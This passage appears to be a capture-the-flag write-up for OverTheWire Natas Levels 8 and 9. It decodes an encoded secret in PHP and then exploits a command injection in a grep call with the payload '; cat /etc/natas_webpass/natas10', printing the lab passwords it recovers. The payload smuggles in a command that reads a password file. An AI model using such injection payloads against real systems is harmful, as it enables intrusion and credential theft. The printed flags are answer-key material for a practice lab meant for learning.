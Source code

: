  * hex2bin - https://www.php.net/manual/en/function.hex2bin.php
 * strrev - https://www.php.net/manual/en/function.strrev.php
 * base64_decode - https://www.php.net/manual/en/function.base64-decode.php

```php
<?php
$encodedSecret = "3d3d516343746d4d6d6c315669563362";
$decodedSecret = base64_decode(strrev(hex2bin($encodedSecret)));
echo $decodedSecret; // oubWYf2kBq
?>
```

```
Access granted. The password for natas9 is W0mMhUcRRnG8dcghE4qvk3JA9lGt8nDl
```

**Flag:** `W0mMhUcRRnG8dcghE4qvk3JA9lGt8nDl`

# Level 9
http://overthewire.org/wargames/natas/natas9.html

```
Username: natas9
Password: W0mMhUcRRnG8dcghE4qvk3JA9lGt8nDl
URL:      http://natas9.natas.labs.overthewire.org
```

http://natas9.natas.labs.overthewire.org/index-source.html

```php
<?php
$key = "";

if(array_key_exists("needle", $_REQUEST)) {
    $key = $_REQUEST["needle"];
}

if($key != "") {
    passthru("grep -i $key dictionary.txt");
}
?>
```

[passthru](https://www.php.net/manual/en/function.passthru.php) — Execute an external program and display raw output

Eval Injection - https://www.owasp.org/index.php/Direct_Dynamic_Code_Evaluation_('Eval_Injection')#Example_5

```
; cat /etc/natas_webpass/natas10
```
```
Output: 

nOpp1igQAkUzaI1GUUjzn1bFVj7xCNzu

African
Africans
Allah
...
```
